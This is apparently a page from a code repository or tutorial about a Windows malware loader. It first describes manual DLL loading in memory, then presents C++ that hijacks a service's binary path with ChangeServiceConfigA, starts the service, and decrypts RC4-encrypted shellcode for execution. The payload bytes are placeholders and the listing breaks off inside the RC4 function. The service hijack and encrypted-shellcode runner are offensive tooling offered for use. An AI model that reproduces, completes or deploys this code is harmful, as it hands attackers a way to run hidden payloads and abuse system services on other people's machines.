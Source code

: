 2. **Allocating Memory**:
   - Memory is allocated using `VirtualAlloc` for the entire image size of the DLL.

3. **Copying Sections**:
   - The headers and sections are copied into the allocated memory space.

4. **Resolving Imports**:
   - The imports are resolved by iterating through the import table and loading the necessary modules and functions.

5. **Handling Relocations**:
   - If the DLL is not loaded at its preferred base address, relocations are applied to fix addresses.

6. **Calling the Entry Point**:
   - The DLL's entry point (`DllMain`) is called with `DLL_PROCESS_ATTACH` to initialize the DLL.

### Notes:

- **Relocations**: Adjustments to the memory addresses if the DLL is not loaded at its preferred base address.
- **Imports**: Functions from other modules that the DLL depends on.
- **Entry Point**: The main function of the DLL that is called during loading.


Below is an updated version of the code that performs the following steps:

1. **Modify the Service's Binary Path** using `ChangeServiceConfigA`.
2. **Start the Service** using `StartServiceA`.
3. **Execute the Shellcode**.

### **1. Header File: `encrypted_payload.h`**
This file remains unchanged and contains the RC4 key and the encrypted shellcode buffer.

```cpp
// encrypted_payload.h
#ifndef ENCRYPTED_PAYLOAD_H
#define ENCRYPTED_PAYLOAD_H

unsigned char key[] = { 0x01, 0x02, 0x03, 0x04 }; // Replace with your actual RC4 key
unsigned char buf[] = {
    0x12, 0x34, 0x56, 0x78, // Encrypted shellcode bytes go here
    0x9A, 0xBC, 0xDE, 0xF0
};

#define BUF_SIZE sizeof(buf)

#endif // ENCRYPTED_PAYLOAD_H
```

### **2. Main Program: `main.cpp`**
This program modifies the service configuration, starts the service, and then executes the decrypted shellcode.

```cpp
#include <windows.h>
#include <iostream>
#include "encrypted_payload.h"

// RC4 decryption function
void RC4(unsigned char* data, size_t data_len, unsigned char* key, size_t key_len) {
    unsigned char S[256];
    unsigned char temp;
    size_t i, j = 0;

    // Initialize S
    for (i = 0; i < 256; i++) {
        S[i] = (unsigned char)i;
    }
```
